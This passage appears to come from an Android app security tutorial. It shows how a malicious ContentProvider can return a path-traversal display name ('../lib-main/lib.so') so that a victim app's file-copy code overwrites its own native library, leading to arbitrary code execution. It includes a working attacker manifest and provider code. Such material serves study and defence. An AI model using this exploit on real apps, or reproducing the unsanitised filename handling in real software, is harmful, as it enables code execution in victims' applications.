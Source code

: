 ```java
        int read = inputStream.read(bArr);
        if (read == -1) {
            break;
        }
        outputStream.write(bArr, 0, read);
    }
}
```

In this case, you can pass a name with path-traversal to the `getFileName()` method using your own ContentProvider:

- `AndroidManifest.xml`

    ```xml
    <activity android:name=".PickerActivity">
        <intent-filter android:priority="999">
            <action android:name="android.intent.action.PICK" />
            <category android:name="android.intent.category.DEFAULT" />
            <data android:mimeType="*/*" />
            <data android:mimeType="image/*" />
        </intent-filter>
    </activity>
    <provider android:name=".EvilContentProvider" 
        android:authorities="com.attacker.evil"
        android:enabled="true"
        android:exported="true">
    </provider>
    ```

- `EvilContentProvider.java`

    ```java
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
        MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
        matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
        return matrixCursor;
    }
    public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
        return ParcelFileDescriptor.open(
            new File("/data/data/com.attacker/fakelib.so"), 
            ParcelFileDescriptor.MODE_READ_ONLY
        );
    }
    ```

This allows you to bypass the borders of the `/data/data/com.victim/cache/` directory and write the file to the `/data/data/com.victim/lib-main/lib.so`. If the targeted app loads this native library, this leads to arbitrary code execution in the victim's context.

## Access to arbitrary components

